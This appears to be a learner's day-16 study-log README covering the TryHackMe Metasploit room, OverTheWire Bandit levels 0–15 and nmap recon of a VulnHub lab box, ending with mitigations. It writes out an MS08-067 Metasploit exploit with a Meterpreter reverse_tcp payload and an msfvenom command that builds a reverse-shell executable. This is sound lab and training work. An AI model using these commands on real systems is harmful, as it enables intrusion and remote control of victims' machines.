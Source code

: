 ###🚀 Day 16: Metasploit | Bandit (0–15) | VulnHub Scriptkiddie
##📌 Overview

Day 16 was a packed day of learning and practice across three platforms:

TryHackMe Metasploit Room — Focused on scanning, exploitation, Metasploit database, msfvenom payloads.

OverTheWire Bandit (levels 0 → 15) — Strengthened Linux fundamentals through practical challenges.

VulnHub: Funbox Scriptkiddie — Beginner-friendly CTF-style machine, performed initial recon and setup.

##🔹 TryHackMe — Metasploit Room
Key Topics

Scanning targets with Metasploit

Using the Metasploit database (msfdb)

Conducting vulnerability scans

Exploiting vulnerable services

Generating payloads with msfvenom

Obtaining a Meterpreter session

Important Commands
# Start and initialize the Metasploit database
msfdb init

# Launch Metasploit
msfconsole

# Database-related commands
db_status
workspace -a tryhackme_lab
hosts
services

# Scan target host
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_ip>
set PORTS 1-1000
run

# Example exploit usage
search ms08_067
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
run

# Generate payload with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe > shell.exe

🔹 OverTheWire — Bandit (Level 0 → 15)
Focus Areas

SSH basics

File permissions

Hidden files & directories

Encodings (base64, hex, gzip, bzip2)

Cron jobs

Password retrieval logic

Important Commands
# SSH into Bandit
ssh bandit0@bandit.labs.overthewire.org -p 2220

# Find hidden files
ls -la

# View file contents
cat <filename>

# Read the first line
head -n 1 <filename>

# Read the last line
tail -n 1 <filename>

# Base64 decode
cat data.txt | base64 -d

# Hex dump & reverse
xxd -r file.hex > file.out

# Search by permissions
find / -user bandit7 -group bandit6 -size 33c 2>/dev/null

# Connect via nc
nc <host> <port>

##🔹 VulnHub — Funbox: Scriptkiddie
Setup

Downloaded & imported Funbox11.ova

Added entry to /etc/hosts:

funbox11  <target_ip>


Works better with VirtualBox

Initial Recon
# Host discovery
nmap -sn <target_network>/24

# Full port scan
nmap -p- -T4 <target_ip>

# Service and version detection
nmap -sV -sC -p <ports> <target_ip>

# Add entry for convenience
echo "<target_ip> funbox11" | sudo tee -a /etc/hosts

##🔑 Key Takeaways

Metasploit is more than just an exploitation tool — its database & msfvenom features make it a full pentest framework.

Bandit reinforces Linux fundamentals that are critical in real-world scenarios.

VulnHub challenges simulate attacker workflows and build applied experience.

##🛡️ High-Level Mitigations

Keep systems patched (avoid unpatched services like MS08-067 / MS17-010).

Restrict unnecessary services and enforce least privilege.

Secure SSH: disable root login, prefer key-based authentication.

Apply defense-in-depth to minimize exposed attack surfaces.

